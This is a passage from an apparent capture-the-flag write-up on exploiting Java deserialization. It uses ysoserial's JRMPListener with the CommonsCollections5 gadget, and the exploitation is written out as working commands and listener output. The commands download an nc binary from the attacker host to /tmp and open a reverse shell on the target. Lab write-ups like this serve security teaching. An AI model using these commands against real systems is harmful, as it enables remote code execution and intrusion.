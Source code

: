 Here we started the `JRMPListener` module from ysoserial, and as payload I took `CommonsCollections5`. TBH I dont really know why `CommonsCollections5` works, but it does. I just tested all modules until one of `CommonsCollections5` worked.

```bash
┌──(ar0x㉿kali)-[~/Downloads]
└─$ java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 9002 CommonsCollections5 'wget 10.10.14.81'    
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
* Opening JRMP listener on 9002
Have connection from /10.129.229.28:36058
Reading message...
Sending return with payload for obj [0:0:0, 0]
Closing connection
```

*Note:* If you get an error that you are not able to run ysoserial-all.jar, changing the version of your java will help to solve this problem.

```bash
sudo update-alternatives --config java
```

Now that our rouge RMI server is up and running, we should just make an interaction, e.g. `create a new domain`, to trigger the web application to make a request to our rouge RMI server.

```ad-info
title: RMI (Remote Method Invocation)

Remote Method Invocation (RMI) is an application programming interface (API) in the Java programming language and development environment. It allows objects on one computer or Java Virtual Machine (JVM) to interact with objects running on a different JVM in a distributed network. Another way to say this is that RMI provides a way to create distributed Java applications through simple method calls.
```

Oh, we got a callback from the server, that's great, now let's try to get a reverse shell on the server (we would probably end up in the hosting application's docker container and not the host machine!)

```bash
┌──(ar0x㉿kali)-[~]
└─$ nc -lvnp 80  
listening on [any] 80 ...
connect to [10.10.14.81] from (UNKNOWN) [10.129.229.28] 33348
GET / HTTP/1.1
Host: 10.10.14.81
User-Agent: Wget
Connection: close
```

Now the same step for the reverse shell !!!

```bash
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 9002 CommonsCollections5 'wget 10.10.14.108/nc -O /tmp/nc'
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 9002 CommonsCollections5 'chmod +x /tmp/nc'
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 9002 CommonsCollections5 '/tmp/nc 10.10.14.108 4444 -e sh'
```
